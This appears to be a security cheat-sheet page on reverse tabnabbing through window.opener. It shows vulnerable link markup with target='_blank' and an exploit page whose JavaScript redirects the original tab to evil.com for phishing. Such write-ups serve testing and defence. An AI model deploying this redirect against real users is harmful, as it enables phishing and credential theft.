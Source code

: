# Tabnabbing

## Introduction
When you open a link in a new tab ( target="_blank" ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property.

## How to find
```html
<a href="..." target="_blank" rel="" />  

<a href="..." target="_blank" />
```

## How to Exploit
1. Attacker posts a link to a website under his control that contains the following JS code:
    ```html
    <html>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://evil.com');
    if (window.parent != window) window.parent.location.replace('http://evil.com');
    </script>
    </html>
    ```
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
